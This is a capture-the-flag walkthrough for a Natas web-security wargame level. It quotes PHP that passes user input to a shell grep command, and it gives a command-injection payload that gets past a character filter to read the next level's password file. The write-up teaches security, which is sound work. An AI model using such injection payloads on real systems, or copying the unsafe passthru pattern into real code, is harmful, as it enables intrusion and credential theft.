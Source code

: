 # Level 10
This level builds on previous level by intoducing some more constraints.

## Quest 
Now a webpage with msg "For security reasons, we now filter on certain characters" appears.

![Level 10 Image](./images/Level10.png)

From source code we can see some additional checks have been introduced, Lets comment the code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) { // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];             // If its there, assign it to var $key
}

if($key != "") {                            // If key is not empty
    if(preg_match('/[;|&]/',$key)) {        // If user input contains ;,|,&
        print "Input contains an illegal character!";  // Print the message
    } else {
        passthru("grep -i $key dictionary.txt");  // Else, run the command with user input
    }
}
?>
```

## Solution
From source code, we can see that application now doesn't accept characters `;`, `|` and `&`. Essentially all characters that can terminate the command.

Now to construct our payload, i did some tests in my local linux terminal.
```shell
# I have a simple text file 'test'
$ cat test
This is a random file
We love random things, not pseudo random ones.

# Another way to view the file using 'grep'
$ grep -i "" test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # There is no space after \
> test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # If we put a space after \  , command terminates
cat: ' ': No such file or directory
```
Takeaway:
  1. We can use `grep` to view content of a file
  2. `\` is used in multiline linux commands to split command to next line when command is too long
  3. But if we put a space after `\`, then it terminates the command

So, Our payload becomes `"" /etc/natas_webpass/natas11 \`
<br/>Note: We don't need to add extra space at the end as its added for us when `grep` command is run.

Now, we put our payload in the form and it revelas the password for next Level

![Level10 Solution](./images/Level10_solution.png)

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)

